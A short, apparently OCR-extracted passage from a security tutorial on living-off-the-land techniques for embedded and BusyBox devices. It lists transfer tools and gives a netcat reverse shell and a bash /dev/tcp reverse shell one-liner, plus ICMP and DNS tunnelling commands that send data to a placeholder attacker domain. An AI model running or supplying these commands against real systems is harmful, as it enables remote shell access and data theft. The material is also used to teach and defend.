 There are multiple system tools that can be found by default on many systems to interact with remote machines

==wget
curl
ftpget
ftp
tftp==

For devices using the ==BusyBox== suite, alternative commands such as busybox wget or busybox ftpget can be used instead

==nc (netcat) and scp== tools can also be used for similar purposes.

Another advantage of nc is
that some versions of it can be used to establish the reverse shell:
nc -e /bin/sh <remote_ip> <remote_port>

Some versions of bash can be used to establish a remote shell on their own

bash -i >& /dev/tcp/<remote_ip>/<remote_port> 0>&1

An example of the more advanced way to exfiltrate data bypassing strong firewalls is by using the ping utility and storing data in padding bytes (ICMP tunneling) or sending data in third level (or above) domain names with the nslookup utility (DNS tunneling): ping <remote_ip> -p <exfiltrated_data>
nslookup $encodeddata.<attacker_domain>